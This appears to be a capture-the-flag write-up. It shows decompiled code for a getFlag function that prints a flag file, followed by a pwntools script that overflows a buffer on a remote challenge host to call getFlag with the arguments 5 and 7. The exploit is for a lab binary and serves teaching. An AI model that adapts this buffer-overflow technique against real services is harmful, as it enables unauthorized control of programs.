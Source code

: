 ```python
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;
  
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}

```

- By looking the code we can say that `this not a straight forward` but we also need `pass the parameters to pass the condition` so make a script for it.

```python
from pwn import *

# Load the binary (32-bit ELF)
binary = ELF('./challenge.elf')

# Connect to remote challenge
p = remote('challenge.ctf.games', 30591)

# Address of getFlag function
getFlag_address = binary.symbols["getFlag"]

# Buffer overflow offset: 36 bytes (buffer) + 4 bytes (saved EBP) = 40 bytes
offset = 40

# Craft the payload:
# [padding] + [getFlag address] + [fake return] + [first arg: 5] + [second arg: 7]
payload = b"A" * offset
payload += p32(getFlag_address)  # Overwrite saved return address with getFlag()
payload += p32(0xdeadbeef)       # Fake return address (won't be used)
payload += p32(5)                # First argument (will be at [ebp+8])
payload += p32(7)                # Second argument (will be at [ebp+12])

# Send the payload and interact
p.sendline(payload)
p.interactive()
```
